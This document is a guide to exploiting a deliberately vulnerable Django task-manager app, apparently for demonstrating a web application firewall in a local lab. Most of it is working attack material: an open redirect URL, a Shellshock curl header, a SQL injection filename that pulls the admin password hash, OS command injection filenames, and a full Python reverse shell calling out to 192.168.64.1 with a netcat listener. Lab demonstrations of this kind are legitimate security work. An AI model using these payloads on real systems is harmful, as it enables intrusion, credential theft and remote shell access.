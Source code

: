 # Instructions for exploiting vulnerabilities in the djangonv app

## App Protect Policy

Before beginning, some adjustments need to be made to the App Protect policy in order to allow some of the (poorly written) code to run:


/taskManager/register triggers the SQL Injection Syntax Error algorithm.  It's best to disable it for this app.

/taskManager/login/, /taskManager/logout and others triggers Redirect Protection.  Need to alter policy to allow http://127.0.0.1:8000/*


## Exploits

### Open Redirect Vulnerability

The /taskManager/logout endpoint is susceptible to an open redirect.
Threat actors can leverage these types of vulnerabilities to redirect the user's browser to a URL of their choice.  
The typical exploit vector is via a malicious embedded link in an email.

Demonstrate the vulnerability by pasting the following into the browser's URL space:
```
http://127.0.0.1:8000/taskManager/logout?redirect=http://www.yahoo.com
```

### Malicious Payload (Intrusion Prevention)
Open a terminal window and past in the following (ShellShock) exploit:
```
curl -H "User-Agent: () { :; }; /bin/eject" http://127.0.0.1:8000
```
### Remote Command Execution

To trigger a Remote Command Execution (that's actually both a RCE and SQLi..), do this:

1. Go to http://127.0.0.1:8000/ and click "Login"

2. Login to the application
```
user / user123
```
3. Click the link for the "demo project".

4. Click the "Add files" link.  

5. Pick any file from your local computer, and use the following payload for the filename:
```
'||(SELECT password FROM auth_user WHERE username='admin')||'
```
Once this exploit has succeeded, you should see the file in the project file list. The filename contains the MD5 hash of the password of the admin user (after the "md5$"). You should be able to crack this password using JTR or rainbow tables or other.

### OS Command Injection:

In the same place as in for the attack above ("My Projects" --> project you created, add files).
Also pick any file from your local computer, but for the payload use:

An innocent sleep statement (to demonstrate that we can run any command):
```
some_file_name; sleep 1m
```
You'll notice that (without App Protect), the browser will "sleep" for 1 minute.


python reverse shell:
```
some_file_name; python -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("192.168.64.1",8001));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(["/bin/sh","-i"]);'
```

Note:  You'll need to set up a listener on an external host in order for this reverse shell to actually connect.  In this case the host is at 192.168.64.1 and is listening on port 8001.

For example:
```
nc -nvlp 8001
```

